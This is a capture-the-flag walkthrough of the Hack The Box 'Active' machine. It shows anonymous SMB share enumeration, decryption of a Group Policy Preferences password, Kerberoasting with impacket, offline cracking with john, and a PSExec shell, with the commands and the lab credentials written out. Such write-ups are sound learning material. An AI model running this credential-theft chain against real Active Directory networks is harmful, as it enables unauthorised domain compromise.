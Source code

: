 ```yaml
---
layout: PostSimple
date: 2020-04-22
title:     "Hack The Box - Active"
tags: ['windows','easy','smb','kerberos','psexec']
---
```



![73f757b7fcd980b15078520b34f12dd2.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-active/74a132f10e0d4e0797bf934c20a1a352.png)

We are going to pwn Active from Hack The Box.

Link: [https://www.hackthebox.eu/home/machines/profile/148](https://www.hackthebox.eu/home/machines/profile/148)

Let's Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5722/tcp  open  msdfsr
9389/tcp  open  adws
47001/tcp open  winrm
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
49169/tcp open  unknown
49171/tcp open  unknown
49182/tcp open  unknown
```
There are many ports open, let's start with `SMB`

## SMB:

I logged in without the password.
```
root@w0lf:~# smbclient -L 10.10.10.100 
Enter WORKGROUP\root's password: 
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Replication     Disk      
	SYSVOL          Disk      Logon server share 
	Users           Disk      
SMB1 disabled -- no workgroup available
```
Let's check what's inside them.

It seems like I only have access to `Replication`
>smbclient //10.10.10.100/Replication

```
root@w0lf:~# smbclient //10.10.10.100/Replication
Enter WORKGROUP\root's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jul 21 16:07:44 2018
  ..                                  D        0  Sat Jul 21 16:07:44 2018
  active.htb                          D        0  Sat Jul 21 16:07:44 2018

		10459647 blocks of size 4096. 4922655 blocks available
```
```
smb: \> cd active.htb
smb: \active.htb\> ls
  .                                   D        0  Sat Jul 21 16:07:44 2018
  ..                                  D        0  Sat Jul 21 16:07:44 2018
  DfsrPrivate                       DHS        0  Sat Jul 21 16:07:44 2018
  Policies                            D        0  Sat Jul 21 16:07:44 2018
  scripts                             D        0  Thu Jul 19 00:18:57 2018

		10459647 blocks of size 4096. 4922655 blocks available
smb: \active.htb\> 
```

I downloaded all the files in the box to my machine using `smbget`.
```
root@w0lf:~/CTF/HTB/Boxes/Active# smbget -R smb://10.10.10.100/Replication/
Password for [root] connecting to //Replication/10.10.10.100: 
Using workgroup WORKGROUP, user root
smb://10.10.10.100/Replication//active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI                                                                                                                                            
smb://10.10.10.100/Replication//active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/Group Policy/GPE.INI                                                                                                                               
smb://10.10.10.100/Replication//active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf                                                                                                   
smb://10.10.10.100/Replication//active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml                                                                                                              
smb://10.10.10.100/Replication//active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol                                                                                                                               
smb://10.10.10.100/Replication//active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI                                                                                                                                            
smb://10.10.10.100/Replication//active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf                                                                                                   
Downloaded 8.11kB in 33 seconds
```

I found a Interesting file `Groups.xml` in `\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\`

That file contains username and an encrypted password. It's a GPP Password.
![sample.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-active/24959afb5d6e44d98d32b8dcaec80e67.png)


There is a tool in kali `gpp-decrypt` to crack this password.
To know more about what is `cpassword` and `GPP`, you can read [here](https://adsecurity.org/?p=2288).
```
root@w0lf:~/CTF/HTB/Boxes/Active/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups# gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
/usr/bin/gpp-decrypt:21: warning: constant OpenSSL::Cipher::Cipher is deprecated
GPPstillStandingStrong2k18
```
So the password is `GPPstillStandingStrong2k18`.

## User:

I logged in as `SVC_TGS : GPPstillStandingStrong2k18`
```
root@w0lf:~/CTF/HTB/Boxes/Active# smbclient //10.10.10.100/Users -U "SVC_TGS"
Enter WORKGROUP\SVC_TGS's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sat Jul 21 20:09:20 2018
  ..                                 DR        0  Sat Jul 21 20:09:20 2018
  Administrator                       D        0  Mon Jul 16 15:44:21 2018
  All Users                         DHS        0  Tue Jul 14 10:36:44 2009
  Default                           DHR        0  Tue Jul 14 12:08:21 2009
  Default User                      DHS        0  Tue Jul 14 10:36:44 2009
  desktop.ini                       AHS      174  Tue Jul 14 10:27:55 2009
  Public                             DR        0  Tue Jul 14 10:27:55 2009
  SVC_TGS                             D        0  Sat Jul 21 20:46:32 2018

		10459647 blocks of size 4096. 4922639 blocks available
```

Got User Flag:[br/](br/)
![032652c6512aa3dc46398b218303cf90.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-active/8b2e0f9b19b241a28faf4d16ab74a337.png)

## Kerberosting:

We know port 88 is open, so we can move on to the kerberosting technique.

### Step 1:

First we need to get administrator Kerberos ticket. For that we can use `GetUserSPNs.py` from [impacket](https://github.com/SecureAuthCorp/impacket).
>GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS

![edacd9dbbaaf65bf047828e5b08df799.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-active/1be013c86ce44243b7ec30f8b61116d6.png)
Now we can crack this using `john`.

### Step 2:

Cracking the ticket using `john`[br/](br/)
![033afd7f0ad9118331aaa540749471a9.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-active/797ea49a2e2846c4a38b012202d15e11.png)[br/](br/)
And we got the administrator password : `Ticketmaster1968`

## Getting system Shell:

I can get a shell with PSExec which is also from Impacket.
![f56036627caa1deb8121811a74e7e25e.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-active/59b5673a954140508edae991d29f4b71.png)

We own the root!!












